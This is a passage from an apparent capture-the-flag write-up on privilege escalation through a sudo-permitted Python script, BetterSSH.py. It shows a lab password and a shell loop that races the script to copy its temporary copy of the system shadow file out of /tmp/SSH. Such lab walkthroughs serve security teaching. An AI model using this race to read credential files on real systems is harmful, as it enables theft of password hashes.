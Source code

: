 ```

robert@obscure:~$ mkdir /tmp/SSH
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Authed!
robert@Obscure:~$ id  
Output: uid=1000(robert) gid=1000(robert) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev)

robert@Obscure:~$ exit
Output: 
Error: sudo: exit: command not found

robert@Obscure:~$ ^CTraceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 57, in <module>
    command = input(session['user'] + "@Obscure$ ")
KeyboardInterrupt

```

If I fail auth, I’m dropped out:

```

robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: root
Incorrect pass

```

### Path 1: shadow Race Condition

What I believe is the intended path here is to take advantage of the fact that the script writes a copy of the `shadow` file to disk, sleeps and does other work, and then deletes it. That means there’s a time in which I can read it if the permissions aren’t set right.

I’ll run to constantly be trying to copy whatever is in `/tmp/SSH` to `/dev/shm`:

```

robert@obscure:~$ while true; do cp -R /tmp/SSH/* /dev/shm/ 2>/dev/null; done

```

I’ll SSH in to get another terminal as robert and run `BetterSSH.py`​, and afterwards, there’s a file in `/dev/shm/SSH/`:

```

robert@obscure:/dev/shm$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: 
Enter password: 
Invalid user
robert@obscure:/dev/shm$ ls
PMcu46FZ

```

